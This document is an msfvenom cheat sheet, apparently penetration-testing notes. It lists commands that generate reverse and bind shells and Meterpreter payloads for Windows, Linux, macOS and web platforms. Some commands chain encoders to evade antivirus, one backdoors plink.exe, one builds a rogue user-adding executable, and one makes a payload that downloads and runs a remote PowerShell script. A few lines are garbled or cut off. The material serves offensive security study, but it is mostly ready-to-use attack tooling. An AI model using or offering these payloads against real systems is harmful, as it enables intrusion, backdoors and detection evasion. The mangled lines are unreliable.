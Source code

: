# ⭕ msfvenom

## reverse all port payload

```
msfvenom -p windows/meterpreter/reverse_tcp_allports lhost=192.168.56.1 lport=6969  --platform windows exitfunc=thread -a x86  -f exe >reverse_all.exe

set payload windows/meterpreter/reverse_tcp_allports
```

lport is the starting port which can also be set to 1 so it will go all the way to 65535 in both payload and the

## multi-transport payload

in AddTransports.ps1 :

```
Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
Add-WebTransport -Url https://<host>:<port>;-RetryWait 10 -RetryTotal 30
Add-WebTransport -Url http://<host>:<port>;-RetryWait 10 -RetryTotal 30
```

The command line for this would be:

```
msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell extinit=powershell,/home/ionize/AddTransports.ps1 -f exe
```

## custom payload

​​this is a chained command -- enter it one line at a time

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.53 LPORT=443 -f raw -e x86/shikata_ga_nai -i 10 | \
msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.53 LPORT=443 -f raw -e x86/shikata_ga_nai -i 10 | \
msfvenom -a x86 --platform windows -e x86/jmp_call_additive -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/call4_dword_xor -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/fnstenv_mov -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.234 LPORT=443 R | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -t exe -c --platform windows /usr/share/windows-binaries/plink.exe -o beffany.exe
```

## Linux

Linux Meterpreter reverse shell x86 multi stage

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf 
```

Linux Meterpreter bind shell x86 multi stage

```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 
```

Linux bind shell x64 single stage

```
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 	
```

Linux reverse shell x64 single stage

```
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 
```

## Windows

Windows Meterpreter reverse shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

Windows Meterpreter http reverse shell

```
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
```

Windows Meterpreter bind shell

```
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
```

Windows CMD Multi Stage

```
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

Windows CMD Single Stage

```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe >
```

Windows add user

```
 shell.exemsfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

Windows Exec Nishang Powershell in python

```
 msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f python
```

Bad characters shikata\_ga\_nai

```
 msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0"
```

Bad characters fnstenv\_mov

```
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0"
```

## MAC

Mac Reverse Shell

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho
```

Mac Bind shell

```
msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho
```

## Other Languages

python

```
msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py
```

BASH Shell

```
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh
```

PERL Shell

```
msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl
```

ASP Meterpreter shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp
```

JSP Shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp
```

​WAR Shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war
```

​pbcopy && echo '?php '

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php
```

Php Reverse Shell

```
msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php
```
